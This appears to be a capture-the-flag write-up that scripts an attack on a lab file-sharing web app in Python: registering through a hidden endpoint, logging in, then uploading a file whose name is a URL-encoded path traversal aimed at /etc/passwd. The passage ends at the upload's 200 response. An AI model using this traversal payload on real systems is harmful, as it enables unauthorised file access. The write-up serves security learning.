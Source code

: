 
I'll save the bandwidth on the screenshots, but the there's a couple important bits in this app:

Everything requires authentication. There is a hidden registration endpoint that is open to the public. And there's an alternate login method if you know someone's security questions.

I spent some time going through the initial site to see if I could guess any usernames from the CV on the site but none seemed to come back with valid users and wrong password errors. I found if I registered an account, I could upload and download files, and it seemed to assign my download a random numeric ID under 1000. The download function didn't seem to care what my file type was, and the upload didn't appear to have any filters. I couldn't browse to any endpoints that I would expect to have found files (like /files/<myfile> which just results in 403).

I'll document my scripted approach and walk through my thoughts:

All posts are made with a simple param payload. These same calls can easily be made in burpsuite, or just curl. I use python here as I find it more readable.

We start by making my user.


```python
payload = {
    'username': 'tokugero',
    'password': 'tokugero',
}

file_session = requests.Session()
register = file_session.post(f'http://file.{target}/register.php', data=payload)

```

Then we log in with our user data, but we need to add a field to get through the process.


```python
payload["submitted"] = "true"
login = file_session.post(f'http://file.{target}/login.php', data=payload)
print(file_session.cookies.get_dict())
```

    {'PHPSESSID': '2dpriqngp31ppllop56m642083'}


Finally we can try uploading a file, I simply copied a working upload call and transcribed it to python requests.


```python
upload_file = {
    'fsubmitted': (None, 'true'),
    'upfile[]': ('%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd', 'content', 'application/x-php')
}
upload = file_session.post(f'http://file.{target}/upload.php', files=upload_file)
print(upload.status_code)
```

    200
